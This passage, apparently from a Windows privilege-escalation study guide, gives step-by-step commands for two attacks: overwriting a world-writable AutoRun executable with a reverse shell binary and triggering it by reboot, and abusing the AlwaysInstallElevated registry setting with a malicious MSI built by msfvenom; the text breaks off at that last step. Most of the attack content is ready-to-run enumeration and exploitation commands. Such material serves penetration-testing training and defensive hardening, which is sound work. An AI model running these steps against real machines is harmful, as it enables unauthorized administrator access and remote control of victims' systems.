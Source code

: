 1.  Use winPEAS to check for writable AutoRun executables:

    ```
    .\winPEASany.exe quiet applicationsinfo
    ```
2.  Alternatively, we could manually enumerate the AutoRun executables:

    ```
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    ```

    and then use accesschk.exe to verify the permissions on each one:

    ```
    .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
    ```
3.  The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

    ```
    copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
    ```
4.  Copy our reverse shell executable to overwrite the AutoRun executable:

    ```
    copy /Y C:\Users\Public\reverse.exe "C:\Program Files\Autorun Program\program.exe"
    ```
5. Start a listener on your host, and then restart the target to trigger the exploit.&#x20;

### AlwaysInstallElevated

MSI files are program installation package files. These files are installed with the permissions of the user who is attempting to install them. These installers can be launched with elevated (i.e. admin) capabilities in Windows. If this is the case, a malicious MSI file containing a reverse shell can be created.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine and the current user:

```
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If either of these is missing or disabled, the exploit will **not** work.

#### AlwaysInstallElevated Privilege Escalation Methodology

1.  Use winPEAS to see if both registry values are set:

    ```
    .\winPEASany.exe quiet windowscreds
    ```
2.  Alternatively, verify the values manually:

    ```
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
3.  Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:
